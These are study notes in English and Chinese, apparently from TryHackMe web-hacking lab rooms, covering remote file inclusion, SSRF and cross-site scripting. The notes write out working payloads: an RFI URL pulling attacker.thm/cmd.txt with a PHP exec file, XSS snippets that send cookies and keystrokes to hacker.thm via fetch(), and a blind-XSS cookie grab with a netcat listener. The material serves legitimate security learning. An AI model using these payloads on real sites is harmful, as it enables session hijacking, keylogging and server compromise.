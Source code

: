 			-->inject an external URL into include 
				--> file : <?PHP echo "Hello THM"; ?>
				--> http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
		--> python3 -m http.server 
		--> nano host.txt 
			<?php
				print exec('hostname');
			?>
		--> ifconfig --> inet ip : 10.11.92.230
		-->?file=http://ip:8000/xx.txt
		-->?file=http://10.11.92.230:8000/host.txt

## Server-Side Request Forgery (SSRF)
	--> 允許惡意使用者導致網路伺服器向攻擊者選擇的資源發出額外的或經過編輯的 HTTP 請求
	--> regular : 資料返回到攻擊者的螢幕
	--> Blind : 但不會將任何資訊傳回攻擊者的螢幕
		--> 外部 HTTP 日誌記錄工具來監視請求 -- requestbin.com
		-->  Burp Suite 的 Collaborator 用戶端
	--> &x=結尾的有效負載，它用於防止剩餘路徑連接到攻擊者 URL 的末尾
		-->stock?server=api&id=123
		-->http://api.url/api/user?x=/url/api/stock/item?123
	find: 
		--> 當網址列中的參數使用完整 URL 時： 
			--> server=http://server.website.thm/store
		--> 部分 URL，例如主機名稱
			--> server=api
		--> 或者也許只是 URL 的路徑 
			--> dst=/form/contact
		--> <input -- value="path"> --? change path 

## Intro to Cross-site Scripting :  JavaScript 
	--> base on 訊息內容不會被檢查是否有任何惡意程式碼
	--> Payloads 
		--> intention 
			--> Test : <script>alert('XSS');</script>
			--> Session Stealing : 
				<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
			--> Key Logger : 網頁上輸入的任何內容都將被轉發到駭客控制下的網站
				<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
			--> Business Logic : 更改使用者電子郵件地址的 JavaScript 函數
				<script>user.changeEmail('attacker@hacker.thm');</script>
		--> modification
	--> Reflected XSS
		-->error --> inject JS script 
			 --> error=<script src="https://../xx.js"></script>
		--> using link 
	--> Stored XSS
		--> 允許使用者發表評論的部落格網站 
		--> save to database 
	--> DOM Based XSS
		-->  直接在瀏覽器中執行
		--> 「window.location.x」 --> window.location.hash
		--> 不安全的 JavaScript 方法 : eval()
	--> Blind XSS	
		--> XSS Hunter Express : https://github.com/mandatoryprogrammer/xsshunter-express
		--> Netcat : nc -nlvp 9001
			--> -l 監聽 | -p 連接埠號碼 | -n 避免透過DNS解析主機名 | -v 詳細模式
		--> </textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
			--> fetch() 命令發出HTTP請求 | btoa() 指令 base64編碼
			--> echho '' | base64 --decode
